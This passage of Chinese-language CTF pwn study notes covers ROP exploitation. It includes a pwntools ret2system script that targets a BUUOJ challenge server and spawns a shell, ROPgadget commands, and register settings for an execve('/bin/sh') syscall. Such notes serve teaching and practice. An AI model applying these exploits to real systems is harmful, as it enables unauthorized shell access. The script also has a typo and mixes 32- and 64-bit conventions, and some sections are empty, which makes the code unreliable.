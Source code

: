 ```python
#使用ROPgadget来获取pop rdi + ret 的地址
ROPgadget --binary pwn --only "pop|rdi|ret"

from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
system_addr = 0x12345678
bin_sh = 0x12345678
pop_rdi = 0x12345678
payload = cyclic(8) + p32(pop_rdi) + p32(bin_sh) + p32(system_addr)
p.sendline(payload)
p.interactive()
```

### 情况二

当存在system函数，但是没有"/bin/sh"

#### 32位

```

```

#### 64位

```

```



### 情况三

当没有system函数，也没有"/bin/sh"，我们就需要自己使用ROPgadget构造一个后面函数所以操作系统的内核函数，想要调用需要通过寄存器传入代号，当要执行int 0x80的这个汇编代码时，我们要确保，寄存器已经传入了对应的参数

```shell
#安装ROPgadget
python -m pip install ROPgadget
#在程序的.text段中寻找，可以组成payload的函数
ROPgadget --binary pwn --only "pop|ret"
#构造execve("/bin/sh",0,0),寄存器必须是以下值，才能执行int 0x80

eax=0xb ebx='/bin/sh' ecx=0 edx=0	#32位设置
rax=0x3b rdi='/bin/sh' rdx=0 rsi=0	#64设置
#写入"/bin/sh"的地方有

```

#### 32位

32位程序是利用int 80来进行系统调用read函数，也可以直接使用已有的read函数，但是得需要pop_ret的地址满足条件才行
